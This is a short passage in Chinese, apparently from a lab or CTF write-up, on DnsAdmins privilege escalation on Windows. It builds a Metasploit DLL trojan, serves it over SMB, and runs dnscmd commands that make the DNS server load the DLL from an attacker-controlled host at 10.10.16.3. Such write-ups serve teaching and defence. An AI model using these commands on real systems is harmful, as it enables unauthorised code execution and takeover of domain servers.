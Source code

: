 [![](assets/1700100091-48226eb503fcc12683d3a510625a82ca.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231114175231-871e2fee-82d3-1.png)

需要运行三个命令：

1.  将服务器级插件设置为rev.dll我的共享。
2.  停止 DNS 服务器。
3.  启动 DNS 服务器。  
    \## msf生成dll木马  
    使用 Msf 制作了一个 dll 木马

[![](assets/1700100091-57b72ee5c8b83c4cb582722276be0a50.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231114175238-8b93c7d2-82d3-1.png)

## 传输dll木马

使用 smbserver.py将其发送到目标计算机。

[![](assets/1700100091-f89eb52f2e1c5b964ce89d14bfa13c33.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231114175248-916457bc-82d3-1.png)

## 执行dll木马

因为我们是Dnsadmin，可以轻松执行任意文件，还可以重新启动dns服务。  
dnscmd.exe /config /serverlevelplugindll \\10.10.16.3\\s\\rev.dll  
dnscmd /config /serverlevelplugindll \\10.10.16.3\\s\\rev.dll
